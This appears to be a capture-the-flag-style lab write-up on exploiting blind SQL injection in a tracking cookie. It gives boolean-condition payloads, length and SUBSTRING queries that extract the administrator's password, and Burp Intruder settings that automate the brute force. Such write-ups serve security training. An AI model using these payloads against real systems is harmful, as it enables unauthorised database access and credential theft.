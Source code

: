 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234766625-5e8e25d3-387c-40d5-88b6-2c348a1ecb6b.png)

## Solution :


Request looks like 

![image](https://user-images.githubusercontent.com/67383098/234805007-50a73456-c90f-4288-a3bc-2b559e87e890.png)


Query made looks something like -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
where trackingID - `g2w1yAddN9LlERl3` Cookievalue - `xdpiZNiyUyxtsAfDKlsfxYJldM3xW576`

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back. 

We can perform a SQL  injection on trackingID parameter , 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

there maybe 2 results - TrackinID does/does not exist.

- Condition(1=1) = **TRUE** -> **Welcome back message is shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810681-972b65ca-014f-4906-aca9-5201cebea564.png)


- Condition(1=2) = **FALSE** -> **Welcome back message is not shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810921-cc49f440-dca7-4ba7-98ff-a5e4aa8e555d.png)


From the above responses, we can we can exploit the blind injection vulnerablitiy .

#### Conform that there is users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --
```

```
This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.
```

![image](https://user-images.githubusercontent.com/67383098/234817409-11451756-02b5-4822-8916-17e4b53f1065.png)

We see a *Welcome back* msg , so it conforms that there is a users table.

#### Conform that username administrator is present in users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://user-images.githubusercontent.com/67383098/234822414-89112d5b-720c-4688-b285-a9396bdbbd48.png)

We confirm that there is a user called `administrator` in the database.

#### Find the length password of administrator 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

In particular, the subquery `(SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)` is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string `AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'` is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

![image](https://user-images.githubusercontent.com/67383098/234827083-97984765-77d1-46be-b72b-09f9923ff647.png)

This confirms that the password is greater than 1

If we send the value as  50 ie `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`  , we dont get any welcome message which means its not > 50  characters.

![image](https://user-images.githubusercontent.com/67383098/234827767-30367782-0bbe-4f38-8d2a-15635f1ae154.png)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.

#### Bruteforce the 20 character length password


Use the same query as above bu thios time we use the  **SUBSTRING** method `(SELECT SUBSTRING(password,1,1)` to get each letter of the password and loop through it  to check if 1st letter is =a/b/c ... & so on.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```
From the above command we take the 1st character of the password & check if it is = 'a'.
Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this  -

1. Attack type - Cluster bomb
2. Payload 1 - length checking part [>1]
3. Payload 2 - character checking part ['a'--]
4. Payload 1 type - Numbers [range 1-20]
5. Payload 2 type - Bruteforcer [min & max length = 1]
















